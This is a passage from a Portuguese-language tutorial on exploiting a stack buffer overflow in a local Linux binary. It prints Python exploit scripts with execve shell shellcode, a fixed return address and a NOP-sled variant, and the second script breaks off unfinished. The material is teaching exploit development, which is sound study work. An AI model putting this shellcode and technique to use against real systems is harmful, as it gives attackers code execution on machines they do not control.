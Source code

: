 ```
$ cat exploit.py                                                          
#!/usr/bin/python

import struct

shell = "\x48\x31\xd2\x48\xbb\x2f\x2f\x62\x69\x6e\x2f\x73
\x68\x48\xc1\xeb\x08\x53\x48\x89\xe7\x52\x57\x48\x89\xe6
\xb8\x3b\x00\x00\x00\x0f\x05"

#offset
payload = "A" * 56
#endereco de retorno
payload += struct.pack("<Q", 0x7fffffffdf00)
#shellcode
payload += shell

print payload
```
<p>Para enviar o exploit via GDB, pode ser utilizado o comando `r < <(python exploit.py)`. Ao executar o binário via GDB enviando este script, é possível obter o retorno de que o programa chamou o `/bin/dash`, conforme imagem abaixo:</p>

![Programa chamando /bin/dash via GDB.](/std/linbof/gdb-6.png)

<p>O exploit está funcional quando é executado por dentro do GDB, pois o endereço de retorno encontrado, considera não so o binário, mas o próŕio GDB. Porém, quando é executado via terminal, existe um decremento não específico dos endereços de memória, como não é possível "adivinhar" este decremento, o script pode ser adaptado com a técnica de *NOP Sled*.</p>

#### NOP Sled

<p>O *opcode* `NOP`, representado pelo byte `\x90`, é uma instrução Assembly que não faz absolutamente nada. Quando é inserido uma cadeia de NOPs, o programa simplesmente "desliza" sobre eles. Como não é possível descobrir o decremento dos valores de memória, é possível fazer um acréssimo no endereço de retorno seguido de uma cadeia de NOPs.</p>
<p>Isto vai fazer com que o endereço de retorno aponte para um lugar bem abaixo da *Stack*, e logo em seguida o programa vai percorrer os NOPs até o *shellcode*, fazendo com que o exploit se adapte às diferenças de endereços. O sicript adaptado fica como abaixo:</p>

```
$ cat exploit.py 
#!/usr/bin/python

import struct

#cadeia de NOPs
nops = "\x90" * 200

shell = "\x48\x31\xd2\x48\xbb\x2f\x2f\x62\x69\x6e\x2f\x73
\x68\x48\xc1\xeb\x08\x53\x48\x89\xe7\x52\x57\x48\x89\xe6
\xb8\x3b\x00\x00\x00\x0f\x05"

#offset
payload = "A" * 56
Endereço de retorno acrescido de 200
payload += struct.pack("<Q", 0x7fffffffdf00 + 200)
#cadeia de NOPs
payload += nops
#shellcode
```